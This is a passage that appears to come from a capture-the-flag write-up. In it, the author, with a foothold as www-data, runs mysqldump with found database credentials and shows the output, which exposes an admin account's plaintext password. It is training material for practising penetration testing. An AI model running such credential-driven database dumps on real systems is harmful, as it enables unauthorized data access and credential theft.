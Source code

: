 So I dump the database.

```bash
www-data@ubuntu:/dev/shm$ mysqldump -u theseus -piamkingtheseus Magic
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
--
-- Host: localhost    Database: Magic
-- ------------------------------------------------------
-- Server version       5.7.29-0ubuntu0.18.04.1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Table structure for table `login`
--

DROP TABLE IF EXISTS `login`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `login` (
  `id` int(6) NOT NULL AUTO_INCREMENT,
  `username` varchar(50) NOT NULL,
  `password` varchar(100) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `username` (`username`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `login`
--

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;

-- Dump completed on 2022-11-15  8:50:46
```
